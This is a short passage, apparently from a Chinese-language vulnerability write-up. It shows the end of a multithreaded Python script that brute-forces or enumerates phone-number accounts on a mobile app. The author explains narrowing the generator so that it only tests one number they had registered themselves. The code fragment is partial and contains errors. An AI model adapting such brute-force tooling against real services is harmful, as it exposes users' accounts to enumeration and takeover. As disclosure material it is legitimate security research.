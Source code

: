 ```python
                _burp(account_test)
                print '\n[OK] account: %s\n' % account_test

if __name__ == '__main__':
        args = []
        for i in range(30):
            args.Append(args) 
        pool = tp.ThreadPool(30)
        reqs = tp.makeRequests(_status, args)
        [pool.putRequest(req) for req in reqs]
        pool.wait()
```

改了下蘑菇牛的随机数生成方式。

因为该App并没有像美拍那样拥有很多用户所以爆破起来有点难，所以我在测试的时候把，测试范围函数里的list改为了

```
list = "8"
```

手机前三位改为了

```
account_test = random.choice(['138'])\ # 手机号前几位
```

这样只会生成13888888888（这个号码提交之前测试时候注册过）

进行爆破结果如下

[![img](http://p0.qhimg.com/t0185f66c654ca00c0b.png)](http://p0.qhimg.com/t0185f66c654ca00c0b.png)

 